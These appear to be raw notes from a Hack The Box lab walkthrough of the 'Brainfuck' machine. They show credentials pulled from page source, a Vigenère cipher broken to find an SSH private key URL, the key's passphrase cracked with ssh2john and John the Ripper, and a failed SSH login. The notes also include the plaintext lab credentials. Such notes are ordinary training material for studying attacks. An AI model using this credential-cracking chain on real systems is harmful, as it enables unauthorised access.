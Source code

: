 
inspect source

value="kHGuERB29DNiNE"


Hi there, your credentials for our "secret" forum are below :)

username: orestis
password: kIEnnfEKJ#9UmdO

Regards


Plaintext : Orestis - Hacking for fun and profit
Encrypted : Pieagnm - Jkoijeg nbw zwx mle grwsnn

http://rumkin.com/tools/cipher/otp.php

using rumkin, we get the key "fuckmybrain"

http://rumkin.com/tools/cipher/vigenere-keyed.php

Ybgbq wpl gw lto udgnju fcpp, C jybc zfu zrryolqp zfuz xjs rkeqxfrl ojwceec J uovg :)

mnvze://10.10.10.17/8zb5ra10m915218697q1h658wfoq0zc8/frmfycu/sp_ptr

There you go you stupid fuck, I hope you remember your key password because I dont :)

https://10.10.10.17/8ba5aa10e915218697d1c658cdee0bb8/orestis/id_rsa


┌──(kali㉿kali)-[~/htb/brainfuck]
└─$ python /usr/share/john/ssh2john.py id_rsa > id_john                             
┌──(kali㉿kali)-[~/htb/brainfuck]
└─$ ls
40939.txt  41006.txt  exploit.html  id_john  id_rsa
┌──(kali㉿kali)-[~/htb/brainfuck]
└─$ subl id_john
┌──(kali㉿kali)-[~/htb/brainfuck]
└─$ john id_john --wordlist=/usr/share/wordlists/rockyou.txt
Using default input encoding: UTF-8
Loaded 1 password hash (SSH [RSA/DSA/EC/OPENSSH (SSH private keys) 32/64])
Cost 1 (KDF/cipher [0=MD5/AES 1=MD5/3DES 2=Bcrypt/AES]) is 0 for all loaded hashes
Cost 2 (iteration count) is 1 for all loaded hashes
Will run 4 OpenMP threads
Note: This format may emit false positives, so it will keep trying even after
finding a possible candidate.
Press 'q' or Ctrl-C to abort, almost any other key for status
3poulakia!       (id_rsa)
Warning: Only 2 candidates left, minimum 4 needed for performance.
1g 0:00:00:04 DONE (2021-06-12 07:39) 0.2212g/s 3172Kp/s 3172Kc/s 3172KC/sa6_123..*7¡Vamos!
Session completed



ssh -i id_rsa orestis@brainfuck.htb 

The authenticity of host 'brainfuck.htb (10.10.10.17)' can't be established.
ECDSA key fingerprint is SHA256:S+b+YyJ/+y9IOr9GVEuonPnvVx4z7xUveQhJknzvBjg.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added 'brainfuck.htb' (ECDSA) to the list of known hosts.
@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@
@         WARNING: UNPROTECTED PRIVATE KEY FILE!          @
@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@
Permissions 0755 for 'id_rsa' are too open.
It is required that your private key files are NOT accessible by others.
This private key will be ignored.
Load key "id_rsa": bad permissions
orestis@brainfuck.htb: Permission denied (publickey).
